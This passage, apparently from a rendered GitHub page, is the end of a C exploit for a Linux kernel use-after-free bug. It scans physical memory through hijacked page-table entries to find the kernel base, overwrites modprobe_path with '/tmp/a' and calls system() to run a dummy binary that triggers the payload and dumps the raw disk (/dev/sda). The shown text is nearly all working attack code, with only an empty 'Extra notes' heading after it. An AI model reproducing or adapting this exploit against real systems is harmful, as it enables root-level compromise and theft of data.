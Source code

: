```c
    arb_rw_mmap[2] == 0xd089023c0fea158d &&
    arb_rw_mmap[3] == 0x7de8300f20eac148)
   {
    phys_kbase = cur_paddr;
    printf("[*] Found phys kbase: 0x%lx\n", phys_kbase);
   }

   arb_rw_pte[0] = 0;

   if (phys_kbase != 0)
    break;

   cur_paddr += 0x100000;
  }

  /* Patch kernel */
  unsigned long modprobe_off = 0x18c960f;
  unsigned long modprobe_page = modprobe_off & ~0xfffUL;

  arb_rw_pte[2] = 0x8000000000000067 | (phys_kbase + modprobe_page);
  arb_rw_pte[3] = 0x8000000000000067 | (phys_kbase + modprobe_page + 0x1000);

  strcpy((char *)arb_rw_mmap + 0x2000 + (modprobe_off & 0xfff), "/tmp/a");
  system("/tmp/dummy; cat /dev/sda; echo EXPLOIT_DONE");

  while (1)
   sleep(1000000);
  _exit(0);
 }

 /* wait until child is ready */
 while (read(pfds1[0], &c, 1) != 1) ;

 /* free uaf pages */
 for (size_t i = 0; i < N_UAF_MAPS; i++)
 {
  if (munmap(uaf_maps[i], 0x1000) < 0)
   err(1, "munmap uaf_maps");
 }

 /* tell child to continue */
 while (write(pfds2[1], &c, 1) != 1) ;

 while (1)
  sleep(1000000);

 return 0;
}
```

## Extra notes
